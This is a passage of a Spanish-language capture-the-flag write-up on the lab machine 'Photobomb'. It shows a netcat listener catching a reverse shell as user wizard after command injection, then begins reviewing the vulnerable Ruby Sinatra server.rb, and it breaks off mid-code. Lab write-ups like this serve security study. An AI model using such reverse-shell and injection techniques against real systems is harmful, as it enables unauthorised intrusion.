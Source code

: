 ![BurpSuite photobomb petición](/assets/favicon/2023-02-11/photobomb5.png)
```shell
nc -nlvp 4434           
Listening on 0.0.0.0 4434
Connection received on 10.10.11.182 50650
bash: cannot set terminal process group (732): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$
```
Obtenemos acceso. Realizamos el tratamiento de la tty y comenzamos a enumerar el sistema como el usuario wizard.

## Analizando código ruby de servicio web
Vamos a ver cómo se está ejecutando el aplicativo para revisar el porqué nos permite inyectar comandos, el siguiente código está en el archivo `server.rb`:

```ruby
require 'sinatra'

set :public_folder, 'public'

get '/' do

  html = <<~HTML
<!DOCTYPE html>
<html>
<head>
  <title>Photobomb</title>
  <link type="text/css" rel="stylesheet" href="styles.css" media="all" />
  <script src="photobomb.js"></script>
</head>
```
